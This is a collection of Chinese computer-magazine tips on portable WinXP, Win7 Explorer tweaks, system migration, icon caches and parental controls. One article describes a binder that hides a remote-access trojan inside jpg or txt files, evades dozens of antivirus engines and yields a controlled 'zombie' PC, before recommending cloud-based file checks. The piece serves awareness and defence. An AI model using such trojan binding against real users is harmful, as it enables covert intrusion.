很多人移动硬盘原来就安装了PE、Ubuntu等维护系统，如果要让移动WinXP和原来维护系统组成多系统，则主引导记录可以选择“Grub4DOS 0.4.5bMBR”，然后在原来“menu.lst”配置文件添加一个启动WinXP代码命令即可：

```
Title 移动WinXP
Root (hd0,0)
Chainloader /ntldr
```

第3步：使用WinRAR将下载的U盘XP文件解压到移动硬盘的主分区，重启后进入BIOS设置将USB设备设置为第一启动即可开始使用移动WinXP了。进入WinXP后打开磁盘管理可以看到此时的系统分区（C盘）是“磁盘1”（即移动硬盘）第一分区，单击任务托盘的即插即用图标，在弹出的停用硬件设备也可以看到该系统的C盘就是USB设备的第一分区。

小提示：

随身系统同样可以安装到闪盘，不过频繁读写操作很容易损坏闪盘，安装到闪盘用户第一次进入系统后，一定要启动C盘根目录下的“保存后重启.bat”，这样会在闪盘启动FBWF组件，可以将读写操作映射到内存，以减少读写操作对闪盘带来的伤害！

## 专用系统，专用优化

这个随身系统为了适应在所有电脑都可以启动，系统本身并没有自带很多驱动和应用软件，如果要把它作为随身系统，我们还要对其进行专用优化。

## 第1步：安装网卡驱动

随身系统的驱动和应用软件都可以从网络获取，因此我们首先要在随身系统安装网卡驱动。由于这个系统经常要在不同的电脑上启动，可以先在其C盘建立一个“LAN”目录并在其下建立常见网卡子目录用于保存常见网卡驱动，然后在正常电脑上下载好常见网卡驱动并保存在“C:\LAN”对应子目录下。以后随身系统启动后，展开“设备管理器→其他设备→以太网控制器”，按提示选择“更新驱动程序软件→浏览计算机以查找驱动程序软件”，根据目标电脑的网卡型号，定位到“C:\LAN”下对应子目录安装网卡驱动即可。其他如声卡、显卡驱动的准备同上。

## 第2步：安装常用软件

随身系统可以上网后，我们就可以根据自己需要安装常用的软件如WinRAR、傲游浏览器、迅雷等软件。对于游戏迷，还要安装最新的“DirectX 9.0c”组件，可以到http://download.microsoft.com/download/c/6/a/c6af7ea3-f85c-4fef-a475-5810f82def1f/directx_nov2007_redist.exe下载。完成安装后单击“开始→运行”，输入“dxdiag.exe”回车后就看到是否成功安装DirectX了。

## 第3步：其他常见优化

如果这个系统主要用于玩游戏，我们还可以对其进一步优化，以便在其他低配置电脑上也可以流畅运行。比如可以右击桌面“我的电脑”，依次选择“属性→高级→视觉效果”，选择“调整为最佳性能”以节省资源；此外，还可以启动“系统配置实用程序”关闭不必要启动项，启动系统服务配置程序，关闭不必要的服务等。

## 第4步：开始使用

完成上述优化操作后，现在就可以安装你喜欢的游戏到里面了。以后只要将移动硬盘插入到任何一部支持USB启动的电脑，进入系统后安装一下必要的显卡、声卡驱动（不同电脑只要安装一次即可）就可以开始玩游戏了。

小提示：

这个随身系统是个精简WinXP系统，为了避免以后使用中遇到文件缺失问题，我们可以准备一个WinXP原版安装光盘，并将其中的“i386目录”复制在C:\，然后启动注册表编辑器，依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Setup]，双击右侧“SourcePath”键值，将其数值设置为“C:\i386”。这样在提示我们插入安装光盘提取文件的时候，系统会自动定位到上述目录提取文件。

## 附表：移动WinXP和常见随身系统比较

| 名称 | 启动方式 | 运行载体 | 功能比较 | 制作难度 |
| :--- | :--- | :--- | :--- | :--- |
| 移动WinXP | USB设备独立启动 | 移动硬盘，所有操作保存在移动硬盘 | 全面，可以安装大多数常见软件。 | 简单，只要会解压即可 |
| WinPE | USB设备独立启动 | 内存，关机后数据清零 | 一般，很多大型软件无法安装，驱动安装也较复杂 | 较复杂，一般需要格式化目标设备才能制作 |
| U3 | 需要目标电脑有系统才能使用 | 设置和应用程序保存在U盘，运行要基于母系统存在 | 较全面，但很多软件都是U3专用软件 | 复杂，安装好后还需要进行很多设置才可以使用 |

## 写在最后

这里介绍的随身系统是个真正运行在移动硬盘的WinXP，除了可以将其作为游戏系统外，同样可以把它作为随身系统使用，比如在其中安装一些常用维护软件就变为维护系统了，安装炒股软件则变为炒股专用系统，更多应用等大家自己去发掘！

（文/俞木发）

## 让所有查看模式都能筛选排序

在Windows 7的资源管理器中，只有在“详细信息”的查看模式下，在窗口上方才会有筛选和排序功能，在其它查看模式下都没有该功能，如在“中等图标”等模式下，既没有筛选功能，也没有任何排序可以点击，对于查看图片会带来不便。如果能让所有文件查看模式下都能使用筛选排序功能，那就方便多了。

其实可以通过Explorer7Fixes这款小工具，将筛选排序工具栏在其它查看模式下也显示出来，方便文件浏览。下载Explorer7Fixes程序压缩包解压后，以管理员身份执行“install.bat”这个批处理安装程序，会出现一个命令行方式窗口，按任意键继续安装，安装成功后给出提示。

安装成功后，重新打开资源管理器，无论在大图标、中等图标、列表、平铺等等全部的查看模式下，都可以使用筛选排序功能，这下就可以方便的使用文件名称、大小、格式、日期等方式对文件进行筛选和排序了，使用起来方便多了。 （文/王彦博）

## Windows抓图键 巧配上传“精灵”

小华喜欢研究各种软件，经常和远方好友探讨各种软件的使用心得。为了便于交流信息，双方经常将屏幕上的相关图片抓取下来，通过QQ发送给对方。不过在QQ中发送尺寸较大的图片，速度往往比较慢，如果遇到网速缓慢的时候，图片迟迟在QQ中无法显示，那叫一个着急啊！

自从小华淘到了Climsy这款免费的小工具，上述烦恼就彻底消失了。小华只需点击“PrintScreen”或者“Alt+PrintScreen”键，就可以将抓取的全屏图片或者活动窗口图片直接存储到Internet上，之后直接传输图片网址就可以了，这大大提高了图片共享的效率。

运行软件，在系统托盘中的Climsy菜单中点击“Settings”项，在设置窗口中的“Image Type”栏中选择图片存储格式（包括JPG和PNG）。在“Compression”栏中拖动滑块，可以设置图片压缩率。在“Image Share”栏中选择图片上传方式，默认图片上传到Climsy.com网站中保存。如果您想将图片存储到局域网路径中，选择“Custom Directory”项，点击“Browse”按钮，选择局域网共享文件夹即可。为了防止图片共享路径过长，您可以在“URL Shortener”列表中选择“Bit.ly”项，激活短地址功能。其余的设置保持默认。在“Notifications”栏中选择提示信息显示时间（默认为5秒钟，最大为30秒）。之后点击“Save”按钮保存配置信息。

以后只要按下“PrintScreen”或者“Alt+PrintScreen”键，在屏幕右下角弹出的图片上传面板中点击“Share Image With Climsy”按钮，Climsy可以自动将剪切板中的图片传输到您选定的网络存储空间中。当图片上传完成，Climsy可以将地址自动复制到剪切板中，您只需在QQ中粘贴发送该地址，对方就可以直接浏览该图片了。

当您上传了很多图片，可以随时在Climsy菜单中点击“Manage Shared Images”项，在打开网页中显示您上传的所有图片，既可自由浏览也可删除选定的图片。此外，使用Climsy内置的批量删除功能，执行删除所有图片，删除存储时间超过14天的图片，删除所有最近14天之内没有浏览过的图片。（文/郭建伟）

## 文件捆绑攻防战

## 打开txt、jpg也会中招？！

以前经常能听到同事、朋友说由于接收了来历不明的文件，打开后不幸中招的事情。现在的人们已经有了很高的警惕性，已经懂得看别人传过来的文档是不是以exe结尾，不是的话就能运行，是的话就用杀软扫描下，没毒的话才打开。也许你看了下面要介绍的文件捆绑器，就不会这么自信了！

这里向大家展示的是一个水准比较高的文件捆绑，这是一款比较小众的硬性图-文捆绑器，软件很小，界面也很简洁，并没有美化，但它的功能实在没得说，可以在普通jpg图片或是txt文档上捆绑一个exe程序，并自动生成以.jpg或是.txt为结尾的新文件，而且可以为exe程序设置延迟自运行。同时它还有一个更重要的防护措施，就是当用户自行更改了文件的后缀名，比如将Gif改为jpg，依然能实现既定功能，图片能正常显示，病毒也能运行。

我们将一个普通的jpg图片与一个刚生成的灰鸽子客户端捆绑后拖到了某杀毒软件里，结果显示正常，杀软并没有报毒。于是我们又将新生成的文件传到了VirusScan.org网上，经过36个杀软的层层扫描结果依然是没有发现病毒！呵呵，结果很震撼吧！这么一个捆绑了木马的文件竟然躲过了36个国际大牌杀软的捕杀。

其实，之所以出现这个结果并不能怪杀软，因为各大杀软并没有收录它的特征码，所以它生成的捆绑文件也就能轻易的突破杀软的防线了。

既然成功实现了捆绑文件的功能，那运行这个文件会不会被用户发现呢？我们运行后发现并没有任何异常的事情发生，jpg图片或是txt文档均能以正常速度打开，看来捆绑后的文件不会引起用户的怀疑，只要捆绑的病毒免杀做的好的话，完全可以在运行者电脑上留下后门，也就是说你的电脑变成了“肉鸡”！ 笔者自己运行了刚配置的一款jpg捆绑鸽子，还没有超过3秒，我的控制端就收到了肉鸡上线的提示。很牛吧！

经过以上一番演示大家知道了原来jpg和txt这样常见的图片和文档也不是好惹的，别看人家简单，冒冒失失的运行，你就可能成了人家手里的肉鸡。可是既然这么可怕，那是不是以后我们对未知的jpg图片和txt文档都不能打开了？那有什么解决的办法呢？

其实办法还是有的。最简单的办法就是将来历不明的诸如jpg、txt传到如QQ邮箱这样的可以在线查看的网络服务器上，然后再另存为保存到本地，这样就是最安全的办法！

此外，我们可以借助一些安全辅助软件，对你怀疑的文件进行鉴定，比如可以鉴别文件安全的“天眼”——“金山毒霸云鉴定器”。金山毒霸云鉴定器是最新版的金山毒霸2011sp2版中一个基于云安全技术的应用，具有鉴别文件安全属性的功能。

- 云安全鉴定第一步：运行金山毒霸主程序，在打开的主程序界面单击上方的“安全百宝箱”按钮，再单击“安全工具”下的“云鉴定器”按钮，打开云鉴定器操作界面。
- 第二步：单击“云安全鉴定”选项卡，切换至云鉴定界面。单击“我要鉴定按钮”，在弹出的窗口中选择需要鉴定的文件，接下来，云鉴定器会首先通过微特征在金山云安全系统对文件进行判断，如果云端服务器检测到微特征已经存在，直接将结果反馈给用户。如果没有查询到文件微特征检测，就会将文件上传到云端服务器，在上传过程中可以在界面文件列表中看到99秒的时间提示，云端服务器会通过使用数十种鉴定方法进行进行鉴定（包括特征码和行为识别技术）。
- 小提示：金山毒霸云服务器同时使用的云鉴定器多达30余款，鉴定器依靠云端强大的计算能力对同一个样本文件同时进行快速鉴定。可以将鉴定器理解为识别病毒的方法，除了传统的特征码匹配，还有若干种基于行为的分析方法。30多种鉴定器同时并行计算，可以提高鉴定的可靠性，最大限度提高检测率和降低误报率。
- 文件鉴定完成后，会显示文件鉴定得分，得分越高越安全。
- 第三步：在鉴定完成后，我们可以在鉴定器界面看到文件，文件广度，鉴定结果等操作。文件广度是指拥有该文件的用户人数，以小人头像图标显示。鉴定结果显示的文件安全，操作会显示“定位”按钮，定位文件，如果是病毒文件，则显示“删除”按钮，建议删除。单击每个文件操作后的“扳手图标”，在弹出的快捷菜单中选择“文件信息”命令可以查看到文件鉴定得分以及其他杀软检测结果等更为详细的信息，方便用户管理。
- 小提示：如果你有许多文件都在进行人工鉴定，对于鉴定结果为安全的文件，不希望弹出提示窗来打扰你，可以运行金山毒霸主程序，依次单击“设置→其他设置”，勾选“不提示安全结果”复选框。

总结作为基于云安全应用下的鉴定器，我们测试了一些常见的病毒免杀办法都没能躲过鉴定器的分析。人工分析与云安全系统的自动分析，大大加强了分析结果的准确。在人工分析上，由于要依托工程师分析，所以用户十分关心分析时间的长短，一般在5到10分钟左右，据了解人工分析在非工作时间仍然有分析工程师值班工作。

## 压缩上传也能一步操作

由于工作的需要，办公室的小秦经常要将相关的文件放到网盘，这样便于数据的共享。小秦一般首先是使用压缩工具对这些文件进行打包，目的是为了减少文件的体积，然后才正式向网盘上传文件。

其实利用“快压”，可以实现压缩上传的一步完成，操作也非常的简单。打开文件夹窗口，选择文件，从右键菜单中选择“压缩并秒传分享给好友”，随后快压会对选定的文件进行打包压缩，完成压缩之后会自动上传到EverBox并自动打开网页，接下来小秦只要将共享链接通知到相关人员，对方只要在浏览器中使用这个链接打开页面，单击“剩余下载次数”即可下载文件，可以说是相当的方便。

当然，小秦也可以选择是否分享到微博（新浪、腾讯、QQ空间、人人、豆瓣）、E-mail、手机联系人，或者选择保存到EverBox。

小提示：快压是一款免费、快速的压缩和解压缩利器，是国内第一款具备自主压缩格式的软件，除压缩功能外，还可作为虚拟光驱软件使用，可挂载光盘镜像。（文/周文娟）

## 不放弃！老系统完美移至新电脑

暑假是商家促销的时节，很多个人用户都趁这个时候购置新电脑，可是新电脑不但要新安装系统，而且要重新设定个人设置。难道原有电脑老系统当中的一些软件和个人设置只能放弃不要？可不可以把原有的系统和软件以及相关设置完美移植到新电脑上？

除了购置新电脑的用户需要重新安装系统，还有部分用户可能选择升级电脑配置，但是在更换主板、CPU等主要硬件后，一样要重装系统，这也会导致软件和个人设置丢失。而今天给大家讲的“移植”，可不是简单的克隆系统，因为那样做一定会出现“排异反应”——无法启动或者蓝屏现象的！我们要给大家介绍的是一位“武林高手”——Acronis True Image Echo Enterprise Server(有名的备份软件的企业服务器版，以下简称ATI)和它的得力助手——Acronis True Image Echo Enterprise Server Universal Restore(ATI 通用还原套件，以下简称UR)，让它们助我们实现系统的完美移植！

## 爱 Win7，将老系统移植到虚拟机

我们都知道安装新的系统后，除了原来的系统和软件设置之外，原有系统当中的某些软件还可能无法运行在新系统当中。虽然可利用虚拟机来解决这个问题，但是如何将老电脑的软件和信息移植到虚拟机当中呢？下面，我们就通过ATI将老系统（包括软件）转换为虚拟机硬盘文件，再在虚拟机中加载这个硬盘文件。由于在转换的同时已经去掉了原系统的硬件信息，因此用起来不会有任何问题。

## 备份老系统 转换文件格式

在老电脑上安装并启动ATI，选择“Backup”，按提示操作即可。需要注意的是，备份类型应选择“My Computer”，因为需要备份的是整个系统分区而不是文件。另外，为了加快备份速度，缩小备份文件的体积，最好将一些无用的临时文件、页面文件和休眠文件等设置为不备份。 备份完成后依次进入菜单“Tools→Convert Backup To Virtual Disk”进行格式转换，选择待转换的备份文件再选择虚拟机硬盘类型(这里选择虚拟机VMware)即可，转换速度很快，几分钟就完成了。

## 运行虚拟机 加载老系统

在新电脑上安装并启动虚拟机软件VMware 7.0， 选择“新建虚拟机”，按照提示创建一台和老电脑的系统类型一样的虚拟机。在虚拟机关闭的情况下，进入“编辑虚拟机设置”，先删除原来的硬盘，再添加刚才转成的虚拟硬盘文件，虚拟硬盘就添加成功了。 现在虚拟机还不可以马上启动，因为此时的虚拟机硬盘是在从盘位置，我们还要选中虚拟硬盘，进入“Advanced”选项，将“虚拟设备节点”从“IDE 0:1”改为“IDE 0:0”，即由从盘改为主盘，虚拟机就可启动了。 启动后会搜索并自动安装一些硬件驱动，此后系统和软件就都可以正常使用了，同原来的老电脑一模一样，而且如果主机能够上网，此时虚拟机也可上网。

## 爱 XP，将老系统完美移植到新电脑

如果你认为XP系统已经足够用，而且一些常用的软件也只运行在XP下，再加上在虚拟机中操作不那么习惯和顺手，那么不妨直接把原系统移植到新电脑上好了。这样你更换电脑除了感受到性能上的提升，其他与原有电脑都是一模一样的，不会存在任何不便。 要实现这一点，就要用到ATI的通用还原功能，不同于其他的简单还原软件，它的过人之处就在于还原过程中会自动去掉关键的硬件信息，因此即便电脑更换了主要硬件，系统也不会受到影响。

首先在新电脑中安装XP系统，然后在系统中安装ATI和UR并启动，进入“Recovery”选项，选择系统备份文件和还原的目标分区(选择现在已经安装了XP的分区即可)，默认的“Restored Partition Type”(恢复的分区类型)就是“Active”(激活)，不用修改。

小提示： 如果你不想覆盖现在的系统，转而恢复到其他分区，那么上述分区类型一定要选择“Active”，否则无法继续操作。

接下来按照提示操作，到了步骤“Acronis Universal Restore”时要注意，这一步很关键，一定要选择第二项“Use Acronis Universal Restore”(使用Acronis通用还原)。如果选择第一项，将是一般意义上的还原，两台电脑关键硬件不同，等待你的将很可能是无法启动的系统或者启动后蓝屏，切记切记！

此外，有时需要在还原过程中安装驱动，这时可以在“Specifying Mass Storage Drivers”窗口选择“Install the following drivers”，再添加驱动目录。这一步也很关键，由于存储设备驱动不同，不添加相关驱动很可能出现还原后无法正常启动的情况。

下面按照提示操作，最后点击“Proceed”按钮将会重启系统，开始系统还原，这个过程也会覆盖刚才安装了XP的分区，还原完成后会自动重启，重启后自动搜索新硬件，这时就可逐一安装声卡、显卡和网卡等驱动，驱动安装完成，系统移植也就完成了。

如果不想在新电脑上安装ATI，还可以使用另一种方法。因为ATI可以生成可启动光盘，通过光盘也可以直接进行备份和还原等操作，如果同时安装了UR，则生成的光盘同样具有通用还原功能。对于新电脑，在分好区后，只需用ATI启动光盘启动，再还原备份文件即可，操作方法和在Windows下一样。

ATI本身自带了电源类型和大容量存储设备的相关驱动，但不是很全，所以提供了让你指定驱动的功能，当然如果电脑自带了相应的驱动就最好，指定后就没问题了。将驱动程序收集好后，一并刻录到ATI引导光盘或者移动设备上，这样就可以保证大部分电脑在还原后正常运行。至于其他驱动，如声卡、显卡和网卡之类的不属于ATI通用还原管理的范围，可以等系统恢复后自己手动安装。

小编有话说： 高考结束后有很多即将步入大学的读者朋友咨询，他们将带着新笔记本去大学，有没有能让家里台机里的配置完美移至笔记本电脑的办法，因为对他们而言，在笔记本上按照家里台机的设置再重新配置电脑实在是太麻烦了。如果台机里配置了数据库文件，那更是一项“大工程”。文章中提到的软件及方法虽不是最新的，但是由于平时涉及此方面的内容不多，所以很多人并不了解，希望这篇文章能帮到有此需求的朋友。 (福建省气象局/卓秀然)

## 巧用Win7截图 快速截取弹出菜单

过去我们需要截图时一般都会选择安装第三方截图工具，如果你使用上了Windows7系统，那就不需要这么麻烦了，只需使用Windows7自带的截图工具就OK了。它虽然使用很方便，但有朋友反映无法截取一些弹出菜单图，点了多级菜单后想截图，鼠标就不能去点截图软件上的按钮了，难道要完成这类截图时，仍需使用第三方截图软件吗？其实不必要，Windows7自带的截图工具完全能实现弹出菜单截图，只是我们没有将该功能挖掘出来而已！

今天就来教大家如何使用Windows7截图工具截取弹出菜单。在“开始”菜单的附件中打开Win7自带的截图工具(由于笔者经常会使用这个工具，在桌面创建了个快捷方式)，启动后按“ESC”键或点击“取消”按钮回到正常界面，点击“新建”按钮后的下箭头，选择截图类型为“矩形截图”。 然后按常规方式打开需要截取的弹出菜单，接着按“Ctrl+PrintScreeen”这个Windows7截图工具的快捷组合键，此时鼠标变成十字形，按下鼠标左键选择需要截取的图像区域，松开鼠标后，即可在“截图工具”窗口中得到需要的弹出菜单截图，此时还可方便的进行标记等简单编辑，最后简单保存一下即可。 这样得到的截图无需后期二次处理即可使用，同时也很清晰(虽然可使用QQ聊天工具来截图，但得到的截图不清晰)。

当然，你也可以不使用Windows7截图工具，按“PrintScfeen”键先截全屏图，然后再在图像处理软件中处理，得到需要的部分，相比起截全屏的方法，使用Windows7截图工具就能免去了二次处理的麻烦，更简单更快捷。 (文/王彦博)

## 挖掘系统潜能 “手写”数学公式

作为一名数学教师，需要用Word编辑一些诸如试卷、论文之类的教学资料，在数学试卷或论文的编辑过程中，经常需要录入数学公式，以前都是利用微软办公软件中的“公式编辑器”录入，如果你使用的是Win 7系统，完全可以利用手写板或鼠标“手写”数学公式，比用“公式编辑器”更方便，下面就带领大家一起去体验Win7系统的秘密武器——“数学输入面板”。

- 第一步：单击“开始”→“运行”，或者按下键盘上的“Win+R”组合键，打开“运行”对话框，在文本框中输入“mip”，按下回车键，打开Win7系统“数学输入面板”。
- 第二步：用手写板或鼠标在面板上写出需要的数学公式，系统会自动识别，并将识别结果显示在手写面板上方的预览区域，如果写的数字或者符号不够规范，识别时出现错误，可以单击“选择和更正”按钮，然后再单击字符，从弹出菜单中选择正确的字符即可，万一菜单里面没有你想要的字符，则可以在虚线框中重新写入。
- 第三步：经过修改，识别正确后，单击窗口右下角“插入”按钮，即可将用Win7系统“数学输入面板”手写的数学公式插入Word文档中，插入的公式还可以用Word自带的公式编辑工具进一步编辑。

## 小技巧：为“数学输入面板”创建桌面快捷方式

如果你觉得通过“运行”对话框启动Win7 正版系统的“数学输入面板”比较麻烦，可以为其在桌面创建一个快捷方式。在桌面空白处单击鼠标右键，在弹出的快捷菜单中选择“新建”→“快捷方式”，打开“创建快捷方式”向导，在“请键入对象位置”下方的文本框中输入“C:\Program Files\Common Files\microsoft shared\ink\mip.exe”(包含双引号)，单击“下一步”，键入快捷方式名称(如：数学输入面板)，最后单击“完成”按钮，即可在桌面上生成“数学输入面板”的快捷方式，以后要手写数学公式只要直接双击这个快捷方式即可启动Win7系统的“数学输入面板”，进行数学公式的录入和编辑。 呵呵，利用Win7系统的秘密武器——“数学输入面板”录入数学公式真是太方便了，你是不是心动了呢？心动不如行动，赶快安装Win7系统，有“数学输入面板”助阵，录入数学公式得心应手。 (山东禹城市文化局/宋平)

## 轻松搞定Win7图标的那点事

身边的朋友们都一个个用上了Win7，自己也不甘落后，可是自从使用上Win7旗舰版，没用多久先后多次发生了文件图标故障问题。不是一些EXE文件图标莫名其妙丢失，变成未知图标；就是桌面快捷方式图标箭头区域变成黑块；虽然能正常使用，但总感觉不美观。更可恶的是桌面上的快捷方式图标时不时的自己变形状，今天宽带连接的图标变成Windows Media Player的图标，明天千千静听又变成浏览器的图标，这给辨别程序类型造成不小的麻烦。使用安全和杀毒工具处理也没能解决问题，看来并不是病毒的原因，真让人抓狂呀！

### 一、重置和增加图标缓存 解决快捷方式图标错位问题

Windows为了让右键刷新电脑时不出现太大的显示延迟，在系统中创建了一块区域就叫桌面图标缓存，桌面图标缓存就是用来保存已经建立的快捷方式图标，刷新桌面显示时就无需重新建立，只需从缓存中读取即可。Windows默认的缓存大小比较小只有500KB，如果桌面建立的快捷方式图标过多，就超出了缓存的存储范围，会造成桌面图标错位混乱现象。
解决这一问题最简单的办法就是重建图标缓存了！手动重置WIN7图标缓存方法较麻烦，那就使用“Win7图标缓存重建工具中文绿色版”这个傻瓜式的Win7图标缓存重建小工具代劳吧！下载后运行它点击“确定”按钮，此时会出现一个命令行方式窗口，很快就执行完成。这样系统就会自动清空并重建图标缓存中的数据，原来的错位也就消除了。
再适当增加一下图标缓存大小，让图标缓存更自如，杜绝图标过多缓存过小造成的图标错位问题！打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer]，在右侧窗格创建一个名为“Max Cached Icons”的字符串值，设置它的值为“2048”（注意：最大只能设为8192）。这要看你的桌面图标有多少，内存有多大来定了。设大了占用系统内存过多，小了图标缓存不够用，一般设为2048（占内存2MB）就足够了，重启系统后即可生效了。
小提示：
Windows优化大师也可以设置桌面图标缓存大小，安装有该软件的朋友们可以一试，但需要注意的是调整图标缓存时不要低于已经使用的图标缓存大小哦。

### 二、修复 iconcache.db 图标缓存文件 解决文件图标丢失问题

虽然可通过Win7图标缓存重建来解决图标显示的一些问题，但是如果iconcache.db图标缓存文件损坏时，重新建立图标缓存的方法就无效了，这时最好使用IconPatch这个小工具修复iconcache.db这个图标缓存文件来解决。
下载IconPatch，解压后在管理员权限下运行它（可能需要VS2008的VC运行库支持，按提示安装即可），点击“应用补丁”按钮，开始修复，完成后按钮提示注销重新登录系统即可生效，该软件特别适合修复Win7部分图标经常变为未知类型的问题。

### 三、使用 Microsoft Fix it 解决桌面快捷方式图标箭头区域变成黑块问题

针对桌面快捷方式图标箭头区域变成黑块问题，Microsoft Fix it团队已经为这个问题提供了自动化解决方案。此解决方案只是帮助大家修改或恢复了注册表的信息，不会在大家的电脑里装入任何新的插件，下载修复此问题对应的Microsoft Fix it 50550安装包后，运行它，按照提示一步步操作，即可自动完成修复，修复后重新启动电脑即可。

### 知识扩展：巧改Win7文件关联图标 让辨别文件更直观

一般朋友们在使用Windows系统时都会隐藏文件的扩展名，通过文件图标来方便快捷的辨别文件类型，在XP下可通过在“文件夹选项”对话框中方便的修改文件关联图标，可是在Vista和Win7下，此方法不适用了，“文件夹选项”对话框中的“文件类型”标签变成了“搜索”，系统本身已不能修改文件关联图标了，只能任由软件或系统自动更改图标，但这不利于辨别文件类型呀。
那就让FileTypeRegist这个绿色小工具来帮忙搞定吧！它操作简单方便，无需去准备图标文件，可自动从程序文件中提取来应用，下载运行软件后，在“文件扩展名”后输入需要更改图标的文件扩展名，点击“查询”按钮，在“文件信息”下显示出该文件的默认图标和文件类型，点击“更改图标”按钮，在出现的“IconForm”对话框中点击“浏览”按钮，选择想关联的程序文件，这时在下方显示出从程序中提取出的图标，双击需要使用的图标后，返回到主界面，点击“确定”按钮，即可生效。

- 相关软件下载地址：
- Win7图标缓存重建工具中文绿色版：http://www.downbank.cn/s/24490.htm
- IconPatch 0.1绿色版：http://www.99d.com/down/53/493197.html
- Microsoft Fix it 50550：http://convurl.com/1v2UgE
- FileTypeRegist：http://download.csdn.net/source/2252829

## 试试自定义‘大块头’搜索有秘技

500GB的本本硬盘也不算小了，可是显示剩余空间并不多，磁盘容量都用到哪儿去了呢？除了很多的垃圾文件外，其实更多的时候可能是大文件把我们空间给占牢了，在Win7下我们如何揪出这些大文件呢？

### 系统默认按大小搜索文件的方法

如果按照系统默认方法来搜索指定的大文件，我们可以在搜索框中先输入“大小”，或者是空白时，点击下方的“大小”筛选器之后。
这样就可以搜索出该盘下所有大于128MB的文件了，128M以上的大块头文件就这样被揪出来了。
可是，我们知道，现在十万百万不算富，千万才是刚起步。这个大块头的文件，128M也不算太大，如果想给大块头进行自定义时又怎么处理呢？

### 大块头概念自己定义

对于大块头自己定义，需要有一个搜索结果文件，首先我们对筛选条件定义一个范围，这样就方便以后我们修改搜索文件大小时有一个依据。比如我们选择“大小 特大”的选项，然后再点“保存搜索”，定义名称为“自定义块头搜索文件”。
然后用“记事本”打开此搜索文件，找到关键词“gte”，在该关键词后再找到value后面所带的第一个数字表示文件尺寸的起始大小，把该数字改成我们需要的起始字节数，比如“256000000”（硬盘容量的256M标识法），然后找到关键词“lt”，在它后面的value中所带的数据改成一个巨大的数据值，比如32G（硬盘容量标法）。
把搜索文件进行保存之后，然后双击这个“保存搜索结果”文件，就可以找到所有大于256000000字节的文件了。
如果想搜索特定范围的文件，只要修改这两个数值就可以满足我们的要求，当然要求别把数字的大小给弄反了。

### 整个计算机的搜索

上述是针对某个磁盘进行搜索，如果是整个“计算机”搜索时，可以选定左边的“计算机”，再如法炮制，创建对应的“搜索结果文件”。
然后再对“结果文件”实施手术即可，要让Win7的搜索性能好，自然对硬盘进行索引才行，并且最好都是Ntfs分区格式。
（浙江联众科技/徐怀平）

## Win7资源管理器也能随意排列图标

近来升级操作系统到Win7旗舰版，体验感觉较爽，可是资源管理器的自动排列文件或文件夹功能，操作起来很不习惯，无论怎么拽文件或文件夹，它们的位置却丝毫不动，无法手动排列。如对一些文件名称进行修改后，准备操作下一个时，它们却自动进行排列了，位置发生了变化，让人好找呀！在以前在Vista/xp系统中，只需取消对“自动排列”菜单项的勾选就ok了，可是在Win7下的右键“查看”菜单下，却没有了该菜单项，无法设置（桌面右键菜单中却有哦），让人很郁闷。

如何才能让Win7实现任意文件的随意拖拽排放呢？我们可以在记事本里输入一段注册表代码，保存为“.reg”文件，然后双击运行它添加到系统注册表中，重启电脑后就会发现资源管理器右键菜单的“查看”菜单下多了“自动排列”和“对齐到网格”两个菜单项，使用它们就可方便控制文件和文件夹的排列了。取消对它们的勾选，这下就可以随便拖放文件或文件夹位置，进行任意排列了，文件排序随便你怎么拖都可以了。
如果经常使用“中等图标”查看文件和文件夹，那就将查看方式修改为“中等图标”，取消对右键菜单的“查看”菜单下“自动排列”和“对齐到网格”项的勾选，再点击“工具/文件夹选项”，打开“文件夹选项”对话框，切换到“查看”选项卡下，点击“应用到文件夹”按钮，这样设置后，就可让所有的文件和文件夹在任何查看模式下，浏览时实现随意排列位置的功能了。

如果使用WIN7系统的朋友们也遇到这样的问题，对此很纠结的话，也使用这一方法，让资源管理器的文件或文件夹图标可随意排列吧！
小提示：
如果在某些文件夹下无法实现文件或文件夹图标可随意排列，只需在空白处右键点击，取消“查看”菜单下“自动排列”和“对齐到网格”项的勾选即可。
附：注册表文件下载地址：http://u.115.com/file/bhimg9m3
（文/青山漫步）

## Win7为孩子打造安全的上网环境

每到进入七月，如何让学生过一个安全、愉快的暑假成为了家长、老师最关心的问题。但随着电脑和网络的日益普及，如何防止孩子在暑假沉迷网络成了问题的核心。暑假期间孩子白天基本上处于一种自我管理的状态，有不少孩子很轻易就能接触到网络和电脑游戏。

因此，为孩子营造一个良好的上网环境就显得至关重要。若能给予孩子正确的上网引导和适当的约束，孩子才能够从网络中汲取有用的知识，同时尽可能地避免网络带来的不良体验。但是家长不可能时刻盯着孩子，那怎样才能给予孩子适度有效的关怀和约束呢？

其实Windows7的出现使家长在保护孩子上网方面有了很大的提高。它自身就有一个不错的功能——“家长控制”。那让我们一起来看看一下如何用“家长控制”来给孩子一个健康的网络环境。

说到“家长控制”这个功能，其实就是Windows7的先进、安全的体现。它可以实现：控制孩子使用计算机的时间、玩的游戏种类，允许和阻止特定程序。它可以在学校、家庭等孩子上网的环境里广泛使用。下面我们就来一起看看如何使用“家长控制”功能。

### 1. 为孩子创建一个专用账户

首先单击“开始”，在命令框里面输入“家长控制”并在命令行结果集里面单击“家长控制”，或者打开“控制面板”——“用户帐户和家庭安全”，点击“家长控制”。

在“家长控制”对话框里，点击位于中间的“创建新用户帐户”。然后在弹出的对话框中键入新用户的名称 baby，并点“创建帐户”按钮即可完成。这个时侯您的计算机应该有两个帐户，一个是您作为家长的管理员账号Administrator，另一个叫做“baby”的帐户则是给您的孩子使用。

在创建“baby”用户时系统会提示你为“Administrator”用户创建密码，如果忘了设置，只需要在“控制面板”里面，单击“添加或删除用户”，单击“Administrator”用户（系统管理员），再单击“更改密码”，输入您的新密码并最后单击“更改密码”。

### 2. 设置“家长控制”

启用“家长控制”，单击刚创建的“baby”用户，对该用户进行家长控制设置。下面我们将从“家长控制”的三个主要特性，其中强烈推荐家长使用“设置一”、“设置二”、“设置三”来加以控制孩子的网络时间。

- 设置一：时间限制。通常情况下考虑孩子要上学，所以白天基本上可以阻止孩子上网。晚上可以适当安排一定时间，但不要玩的太晚，一般是1到2小时比较合理，双休日适当放宽。这些都由家长自己设置。我做了如下设置。

- 设置二：游戏。控制孩子玩游戏。如果不允许孩子玩任何游戏，就直接单击“否”就可以了。注意：不给玩游戏一般是不可能的，孩子也不答应，所以建议家长还是允许孩子玩一些游戏。

